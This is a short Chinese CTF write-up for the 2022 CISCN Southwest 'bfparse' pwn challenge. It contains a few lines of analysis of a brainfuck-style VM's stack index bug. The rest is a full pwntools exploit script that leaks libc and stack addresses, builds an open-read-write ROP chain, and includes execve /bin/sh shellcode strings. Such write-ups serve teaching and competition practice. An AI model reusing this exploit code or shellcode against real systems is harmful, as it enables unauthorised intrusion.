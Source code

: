 ```yaml
---
title: 2022 ciscn西南分区赛 pwn Writeup
date: 2022-07-11 18:54:59 +0800
categories: [ctf比赛]
tags: [pwn, ctf]
permalink: /posts/id=32/
pin: false
---
```

## bfparse

![image-20220711181159179](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181159179.png)

题目是9.8的版本，calloc开辟了一段空间，典型的VMpwn，逆向一下输入

```
+ 3
, 6
- 4
.5
< 2
> 1
[ 7
] 8
```



![image-20220711181231466](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181231466.png)

漏洞点在于执行命令时存在对栈的读入和栈的泄露操作，且下标可控，通过计算偏移在返回地址处写入orw

![image-20220711181319999](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711181319999.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
# context.log_level='debug'

p = process("./pwn")
p = remote('192.168.0.99','58011')
# p = remote("node4.buuoj.cn","28559")
elf = ELF("./pwn")
# libc = elf.libc
libc = ELF('./libc.so.6')

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

buf = 0x4040
idx = 0x8440
Order = 0x8040
#-------------------------------------
pay = '>'*0x000238+'.>'*8+'>'*8+'.>'*8+'<'*0x38+',>'*0x90
s(pay)
libc_base = uu64()-243-libc.sym['__libc_start_main']
lg('libc_base')

stack = uu64()
lg('stack')

pop_rdi = 0x0000000000023b6a+libc_base
pop_rsi = 0x000000000002601f+libc_base
pop_rdx = 0x0000000000142c92+libc_base
syscall = 0x00000000000630a9+libc_base
pop_rax = 0x0000000000036174+libc_base
bin_sh = libc_base+libc.search("/bin/sh\x00").next()
Open = libc_base+libc.sym['open']
Read = libc_base+libc.sym['read']
Write = libc_base+libc.sym['write']
environ = libc_base+libc.sym["environ"]
flag_addr = stack-0x88
lg('pop_rdi')
#------------------------------------------------------
pay = p64(pop_rdi)+p64(flag_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(Open)
pay += p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(environ)+p64(pop_rdx)+p64(0x60)+p64(Read)
pay += p64(pop_rdi)+p64(1)+p64(Write)+'flag\x00\x00\x00\x00'
s(pay)
# 0x7f23903a8000
p.interactive()
```

